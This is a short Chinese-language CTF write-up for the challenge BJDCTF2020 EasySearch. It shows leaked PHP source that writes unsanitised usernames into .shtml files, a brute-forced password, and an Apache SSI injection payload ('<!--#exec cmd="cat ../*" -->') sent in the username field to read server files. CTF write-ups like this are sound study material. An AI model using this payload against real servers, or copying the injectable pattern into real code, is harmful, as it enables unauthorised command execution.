 # \[BJDCTF2020]EasySearch

## \[BJDCTF2020]EasySearch

## 考点

* Apache SSI 远程命令执行漏洞

## wp

扫描存在index.php.swp文件，给了一部分代码

```php
<?php
  ob_start();
  function get_hash(){
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
    $random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
    $content = uniqid().$random;
    return sha1($content); 
  }
    header("Content-Type: text/html;charset=utf-8");
  ***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
      ***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
      echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
  ***
    }
  ***
?>
```

password的md5值前6位要是6d0bc1，脚本爆破出来是2020666，在返回头给了文件地址

![](<../.gitbook/assets/image (2) (1).png>)

shtml存在一个Apache SSI 远程命令执行漏洞，在登录界面使用如下payload

```
username=<!--#exec cmd="cat ../*" -->&password=2020666
```

![](<../.gitbook/assets/image (13) (1) (1).png>)

再返回返回的`Url_is_here`就可以了

![](<../.gitbook/assets/image (7) (1) (1) (1).png>)

## 小结

1. 查查Apache SSI 远程命令执行漏洞
